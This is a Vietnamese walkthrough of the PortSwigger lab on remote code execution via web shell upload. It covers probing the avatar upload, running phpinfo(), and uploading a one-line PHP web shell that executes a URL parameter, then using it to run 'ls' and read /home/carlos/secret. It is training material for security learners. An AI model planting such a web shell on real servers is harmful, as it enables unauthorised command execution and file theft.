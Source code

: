 ## 1. Thông tin bài lab
- Tên lab: **Remote code execution via web shell upload**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/l1_img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/l1_img2.png)

-	Thử truy cập file ảnh đã upload theo đường dẫn từ response nhưng không truy cập được file ảnh

![img3](./img/l1_img3.png)

-	Thử nghiệm trên một số đường dẫn khác

![img4](./img/l1_img4.png)

- Ta có thể truy cập đến file ảnh đã upload theo đường dẫn _**/files/avatars/test.png**_

![img5](./img/l1_img5.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

![img6](./img/l1_img6.png)

**Kiểm tra giả thuyết**
-	Sử dụng phương thức GET để truy cập đến file test.php, ta có thể thấy trang web đã thực thi file php mà ta đã upload. Qua đó, ta có thể tạo một web shell để RCE và đọc nội dung tệp tin bí mật.

![img7](./img/l1_img7.png)

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

![img8](./img/l1_img8.png)

-	Gói tin Response thông báo upload file shell.php thành công:

![img9](./img/l1_img9.png)

- Sử dụng phương thức GET và truyền vào tham số `x=ls` để liệt kê các file trong thư mục _**/files/avatars**_
-	Ta thấy có thể truyền lệnh ls và server có thể thực hiện theo ý của ta. 

![img10](./img/l1_img10.png)

-	Tiếp tục truyền tham số `x=cat /home/carlos/secret` thông qua Burp Suite để đọc nội dung file.
-	Khi gửi gói tin, ta gặp lỗi Bad Request, thử lại trên trình duyệt.

![img11](./img/l1_img11.png)

-	Khi ta thử lại trên trình duyệt, ta đã đọc được nội dung file bí mật

![img12](./img/l1_img12.png)

**Chú ý:** Khi truyền tham số trên trình duyệt, ta có thể thấy URL trên trình duyệt đã tự động mã hóa _“khoảng trống”_ thành _%20_. Thử lại trên Burp Suite thì có thể đọc được nội dung của file bí mật.

![img13](./img/l1_img13.png)














